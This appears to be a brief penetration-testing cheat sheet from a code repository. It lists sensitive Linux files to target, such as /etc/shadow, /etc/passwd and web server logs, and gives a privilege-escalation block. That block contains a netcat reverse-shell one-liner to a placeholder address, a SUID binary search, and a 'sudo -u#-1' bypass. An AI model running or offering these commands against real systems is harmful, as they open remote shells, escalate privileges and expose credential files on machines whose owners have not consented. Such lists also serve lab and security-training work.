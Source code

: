 ## Important files (Default location)
```
/etc/passwd
/etc/group
/etc/shadow
/var/www/html/
/var/www/
/tmp/
/home/
/var/log/nginx/access.log
/var/log/apache/access.log
/etc/apache2/sites-available/000-default.conf
/etc/samba/smb.conf
```

### PrivEsc
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP_ADDR] [PORT] >/tmp/f
sudo -l   # /etc/sudoers
find / -perm -4000 2>/dev/null    # file with suid
Sudo -u#-1 /bin/bash
```
